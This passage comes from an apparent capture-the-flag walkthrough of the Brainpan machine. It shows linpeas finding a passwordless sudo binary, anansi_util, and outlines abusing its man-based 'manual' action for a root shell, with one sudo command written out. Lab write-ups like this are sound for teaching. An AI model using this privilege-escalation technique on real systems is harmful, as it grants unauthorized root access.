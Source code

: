 ![Pasted image 20250531145244.png](../../IMAGES/Pasted%20image%2020250531145244.png)

Nice, with everything in order, let's check for a PE vector, we can use `linpeas` for that:

![Pasted image 20250531145442.png](../../IMAGES/Pasted%20image%2020250531145442.png)

We can see we got a binary named `anansi_util` on here that we can run as sudo without a password, let's check it out:

```
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

The PE vector on this binary is the use of `manual` command, the man command on Linux is used to display the user manual of any command we run on the terminal, the issue on this, is that we can exploit it to get a root as shell, let's refer to `GTFOBINS` to check the PE:

![Pasted image 20250531145755.png](../../IMAGES/Pasted%20image%2020250531145755.png)

So, in order to exploit this, we need to do:

```
sudo /home/anansi/bin/anansi_util manual id # ID CAN BE REPLACED WITH ANY COMMAND.
#!/bin/bash
```
